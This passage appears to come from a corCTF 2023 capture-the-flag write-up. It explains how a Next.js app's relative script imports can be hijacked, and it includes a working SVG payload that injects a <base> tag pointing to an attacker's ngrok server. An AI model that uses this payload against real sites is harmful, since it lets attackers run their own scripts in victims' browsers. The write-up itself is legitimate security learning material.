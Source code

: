 **In Next.js (React framework), it'll import some JavaScript files using a relative path:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2023/images/Pasted%20image%2020230731161756.png)

Armed with above information, **we can inject a `<base>` tag via SVG, and let those JavaScript files imported from our web server!!**

**payload.svg:**
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

  <foreignObject>
    <base href="https://2eb1-[...].ngrok-free.app">
  </foreignObject>
</svg>
```
